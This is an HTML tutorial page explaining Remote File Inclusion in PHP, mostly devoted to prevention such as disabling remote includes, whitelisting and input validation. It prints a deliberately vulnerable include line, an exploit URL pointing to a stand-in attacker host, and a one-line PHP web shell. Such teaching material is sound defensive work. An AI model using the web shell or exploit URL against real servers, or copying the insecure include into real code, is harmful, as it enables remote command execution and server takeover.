<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">

</head>
<body>

  <h1>📂 Remote File Inclusion (RFI) – A Gateway to Web Exploitation</h1>

  <h2>👶 For Beginners: What is Remote File Inclusion?</h2>
  <p>
    Imagine if an attacker could inject and execute a malicious script on your website, stealing data, hijacking user sessions, or even taking full control of the server.
  </p>

  <p>
    💡 <strong>Remote File Inclusion (RFI)</strong> is a web vulnerability that allows attackers to include remote files (typically malicious scripts) in a web application.
  </p>
  <p>
    This happens when an application dynamically loads files based on user input without proper validation.
  </p>

  <h2>🔍 Technical Explanation of RFI</h2>
  <p>
    RFI attacks occur when a web application accepts a file path as input and loads the file dynamically. If the application fails to validate and restrict file sources, an attacker can:
  </p>
  <ul>
    <li>✔️ Load malicious scripts from an external server.</li>
    <li>✔️ Execute arbitrary code on the target system.</li>
    <li>✔️ Gain access to sensitive files or system configurations.</li>
  </ul>

  <div class="highlight">
    🚨 <strong>Impact of RFI:</strong>
  </div>
  <ul>
    <li>🔥 Website Defacement – Attackers can modify web pages or insert malicious content.</li>
    <li>📂 Data Theft – Unauthorized access to sensitive user and system files.</li>
    <li>🦠 Malware Injection – Injecting backdoors, keyloggers, or phishing pages.</li>
    <li>❌ Complete Server Compromise – Leading to full control of the system.</li>
  </ul>

  <h2>🚨 Real-World Remote File Inclusion Attack Example</h2>
  <h3>🔍 Scenario: RFI in a PHP Web Application</h3>
  <p>A vulnerable website dynamically includes files like this:</p>
  <pre><code>&lt;?php
include($_GET['page']);
?&gt;</code></pre>

  <h4>🚫 Insecure Code (PHP)</h4>
  <p>The attacker can exploit this by injecting a malicious file:</p>
  <pre><code>http://example.com/index.php?page=http://attacker.com/shell.txt</code></pre>

  <h3>💀 How an Attacker Exploits It</h3>
  <ol>
    <li>The application takes user input (<strong>page</strong>) and includes the file without validation.</li>
    <li>An attacker injects a malicious file hosted on their server:</li>
    <pre><code>http://attacker.com/shell.txt</code></pre>
    <li>The web server downloads and executes <strong>shell.txt</strong>, which may contain PHP code like:</li>
    <pre><code>&lt;?php system($_GET['cmd']); ?&gt;</code></pre>
    <li>Now, the attacker can execute remote commands on the server, leading to a complete system takeover.</li>
  </ol>

  <div class="highlight">
    💡 <strong>Key Takeaway:</strong> Never allow user-controlled file paths to be included dynamically!
  </div>

  <h2>🛡️ How to Prevent Remote File Inclusion?</h2>

  <h3>✔️ 1. Restrict File Inclusion Sources</h3>
  <ul>
    <li>✅ Disable remote file inclusion in PHP:</li>
  </ul>
  <pre><code>allow_url_include = Off
allow_url_fopen = Off</code></pre>

  <h3>✔️ 2. Use Whitelisting for File Inclusion</h3>
  <ul>
    <li>✅ Only allow predefined, trusted files:</li>
  </ul>
  <pre><code>$allowed_pages = ["home.php", "about.php"];
if (!in_array($_GET['page'], $allowed_pages)) {
    die("Access Denied");
}</code></pre>

  <h3>✔️ 3. Validate and Sanitize User Input</h3>
  <ul>
    <li>✅ Reject URLs or special characters (http://, ../, ?, %00).</li>
    <li>✅ Use <strong>basename()</strong> to prevent directory traversal attempts.</li>
  </ul>

  <h3>✔️ 4. Implement Least Privilege</h3>
  <ul>
    <li>✅ Run web applications with minimal system privileges to limit the impact of an RFI attack.</li>
  </ul>

  <h3>✔️ 5. Use Web Application Firewalls (WAFs)</h3>
  <ul>
    <li>✅ WAFs can block external file inclusion attempts by detecting malicious patterns.</li>
  </ul>

  <h2>🚀 Final Thoughts</h2>
  <p>
    Remote File Inclusion (RFI) is a serious web security risk that allows attackers to inject malicious scripts, steal data, and take control of a server.
  </p>
  <p>
    💡 Developers must restrict file inclusion sources, validate inputs, and disable risky PHP settings to prevent RFI attacks.
  </p>
  <p>
    By whitelisting files, implementing least privilege, and using security tools, we can effectively mitigate RFI attacks.
  </p>

  <h3>🔐 Stay Secure, Stay Vigilant!</h3>

</body>
</html>
